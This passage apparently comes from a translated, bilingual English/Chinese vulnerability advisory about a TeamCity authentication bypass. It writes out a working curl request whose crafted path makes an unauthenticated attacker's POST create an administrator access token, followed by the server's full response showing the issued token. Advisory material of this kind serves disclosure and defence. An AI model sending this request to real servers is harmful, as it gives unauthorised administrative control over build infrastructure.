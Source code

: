 ![](assets/1709862884-26c2d28f37e6924b4b6ed79d34abe883.png)

Alternatively, an unauthenticated attacker can generate a new administrator access token with the following request:  
或者，未经身份验证的攻击者可以通过以下请求生成新的管理员访问令牌：

```xml
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/users/id:1/tokens/HaxorToken;.jsp -X POST
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
Content-Type: application/xml;charset=ISO-8859-1
Content-Language: en-IE
Content-Length: 241
Date: Wed, 14 Feb 2024 17:37:26 GMT

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="HaxorToken" creationTime="2024-02-14T09:37:26.726-08:00" value="eyJ0eXAiOiAiVENWMiJ9.RzR2cHVjTGRUN28yRWpiM0Z4R2xrZjZfTTdj.ZWNiMjJlYWMtMjJhZC00NzIwLWI4OTQtMzRkM2NkNzQ3NmFl"/>
```